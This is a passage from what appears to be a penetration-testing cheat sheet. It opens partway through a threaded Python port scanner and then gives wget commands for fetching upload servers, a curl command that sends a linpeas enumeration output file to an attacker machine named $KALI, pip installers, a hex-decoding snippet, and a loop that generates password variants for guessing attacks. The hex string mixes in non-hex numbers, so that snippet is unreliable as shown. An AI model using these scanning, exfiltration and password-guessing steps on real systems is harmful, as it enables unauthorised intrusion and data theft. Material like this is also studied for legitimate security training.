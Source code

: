 ```python
        if e.errno == errno.ECONNREFUSED:
            status = "Closed"
        else:
            raise e
    return status
#worker() - A function for worker threads to scan IPs and ports
def worker():
    while not q.empty():
        (ip,port) = q.get()
        status = connect(ip,port)
        lock.acquire()
        results[port] = status
        lock.release()
        q.task_done()
#Prepare queue
for port in ports:
    q.put((target,port))
#Start threads
for i in range(threads):
    t = threading.Thread(target=worker)
    t.start()
print("Started a scan of " + target + "\n" + "-"*10)
q.join()
#Present the scan results
for port in ports:
    print("Port " + str(port) + " is " + results[port])
```
#### python3 servers with PUT support:
```bash
wget https://gist.github.com/touilleMan/eb02ea40b93e52604938
```
```bash
wget https://gist.github.com/mildred/67d22d7289ae8f16cae7
```
```bash
wget https://gist.githubusercontent.com/touilleMan/eb02ea40b93e52604938/raw/b5b9858a7210694c8a66ca78cfed0b9f6f8b0ce3/SimpleHTTPServerWithUpload.py
```
##### upload with curl command:
```bash
curl -F 'file=@/tmp/linpeas.txt' [http://$KALI](http://%3cKALI%3e)
```
##### Install pip
```bash - kali
curl https://bootstrap.pypa.io/get-pip.py -o get-pip.py; python get-pip.py
```
```bash - kali
curl https://bootstrap.pypa.io/pip/2.7/get-pip.py -o get-pip.py; python get-pip.py
```
#### Decode Hex
```python - kali
import binascii
s='50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135'
print(binascii.unhexlify(s.replace(' ','')))
```
P@ssw0rd@123!!123
#### Password manipulation
Run with python3!
```python
base_string = 'ThisIsTheUsersPassword'
for i in range(1, 26):
    print(f'{base_string}{i:02}')
```